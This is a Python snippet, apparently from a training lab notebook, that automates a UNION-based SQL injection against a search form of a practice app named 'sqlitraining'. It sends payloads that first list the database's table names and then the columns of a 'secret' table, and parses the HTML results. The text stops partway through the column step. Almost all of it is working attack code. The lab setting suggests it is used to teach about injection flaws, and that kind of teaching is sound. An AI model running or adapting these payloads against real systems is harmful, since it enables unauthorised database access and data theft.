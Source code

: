 ```python
    # Step 1: Retrieve all table names
    payload = "1' UNION SELECT 1, 2, table_name, 4, 5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='sqlitraining' -- "
    
    # Data to be sent in the POST request for search
    search_data = {
        'searchitem': payload
    }

    # Send the POST request to search
    response = session.post(search_url, data=search_data)

    # Parse the HTML response
    soup = BeautifulSoup(response.text, 'html.parser')

    # Extract the specific table's content within the searchheader div
    result_div = soup.find('div', class_='searchheader')
    secret_table_name = 'secure_programmingAAAAAAAAAAAAA'
    if result_div:
        result_table = result_div.find('table')
        if result_table:
            print(f"payload: {payload}\n")

            print("Tables in the database:")
            display(HTML(result_table.prettify()))
            rows = result_table.find_all('tr')
            for row in rows[1:]:  # Skip the header row
                cols = row.find_all('td')
                table_name = cols[1].get_text().strip()
                print(f"Found table: {table_name}")
                if "secure_programmingAAAAAAAAAAAAA" in table_name.lower():
                    secret_table_name = table_name
        else:
            print("No table found inside searchheader div")
    else:
        print("No searchheader div found in the response")
    print("-"*150)
    if secret_table_name:
        # Step 2: Retrieve columns of the secret table
        payload = f"1' UNION SELECT 1, 2, column_name, 4, 5 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='{secret_table_name}' -- "

        # Data to be sent in the POST request for search
        search_data = {
            'searchitem': payload
        }

        # Send the POST request to search
        response = session.post(search_url, data=search_data)

        # Parse the HTML response
        soup = BeautifulSoup(response.text, 'html.parser')

        # Extract the specific table's content within the searchheader div
        result_div = soup.find('div', class_='searchheader')
        if result_div:
            result_table = result_div.find('table')
            if result_table:
                print(f"payload: {payload}\n")
                print(f"Columns in the secret table {secret_table_name}:")
                
                display(HTML(result_table.prettify()))
                rows = result_table.find_all('tr')
```
